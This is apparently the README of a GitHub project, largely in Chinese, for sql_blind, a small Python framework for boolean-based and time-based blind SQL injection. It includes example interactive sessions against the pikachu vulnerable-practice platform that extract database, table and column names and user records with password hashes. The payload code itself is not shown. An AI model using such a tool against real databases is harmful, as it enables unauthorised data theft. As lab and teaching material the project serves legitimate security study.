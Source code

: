 # sql_blind
A simple tool/framework for boolean-based or time-based sql injection(blind) 

**sql_blind是一款用于基于布尔的SQL盲注和基于时间的SQL盲注的简单工具/框架**

# 简介

sql_blind是为了方便SQL盲注而开发的小工具/框架，目前支持基于布尔的SQL盲注和基于时间的SQL盲注。
其主要目的是辅助手工注入，缩短手工注入的时间。
使用者需要根据实际情况修改payload和部分参数。
小工具（的示例）基于pikachu漏洞平台SQL-Inject的盲注关卡开发，如有必要可以用这两个关卡进行测试。

# 环境要求

本工具基于python3，使用前请先确保安装了python3

# 使用方法

1 下载源代码，根据实际情况修改sqli_bb.py和sqli_tb.py的payload和部分参数   
2 命令行进入源代码所在文件夹（比如sqli_blind）上级文件夹
输入
python
\>\>\> from sqli_blind import *
然后调用各函数即可

# 示例

## 布尔盲注

以pikachu漏洞平台SQL-Inject的布尔盲注关卡为例：

\>\>\> from sqli_blind import *  
\>\>\> CurrentDatabaseBool()  
the name of current database contains 7 characters  
the name of current database is PIKACHU  
\>\>\> TablesBool()  
the name of all tables in current database contains 38 characters  
the name of all tables in current database is HTTPINFO,MEMBER,MESSAGE,USERS,XSSBLIND  
\>\>\> ColumnsBool()  
the name of all columns in current table contains 164 characters  
the name of all columns in current table is   USER_ID,FIRST_NAME,LAST_NAME,USER,PASSWORD,AVATAR,LAST_LOGIN,FAILED_LOGIN,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,ID,USERNAME,PASSWORD,LEVEL,ID,USERNAME,PASSWORD  
\>\>\> ContentBool()  
the content contains 117 characters  
the content is ADMIN^E10ADC3949BA59ABBE56E057F20F883E,PIKACHU^670B14728AD9902AECBA32E22FA4F6BD,TEST^E99A18C428CB38D5F260853678922E03  

## 时间盲注

以pikachu漏洞平台SQL-Inject的时间盲注关卡为例：

\>\>\> from sqli_blind import *  
\>\>\> CurrentDatabaseTime()  
the name of current database contains 7 characters  
the name of current database is PIKACHU  
\>\>\> TablesTime()  
the name of all tables in current database contains 38 characters  
the name of all tables in current database is HTTPINFO,MEMBER,MESSAGE,USERS,XSSBLIND  
\>\>\> ColumnsTime()  
the name of all columns in current table contains 164 characters  
the name of all columns in current table is     USER_ID,FIRST_NAME,LAST_NAME,USER,PASSWORD,AVATAR,LAST_LOG!N,FAILED_LOGIN,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,ID,USERNAME,PASSWORD,LEVEL,ID,USERNAME,PASSWORD  
\>\>\> ContentTime()  
the content contains 117 characters  
the content is ADMIN^E10ADC3949BA59ABBE56E057F20F883E,PIKACHU^670B14728AD9902AECBA32E22FA4F6BD,TEST^E99A18C428CB38D5F260853678922E03  

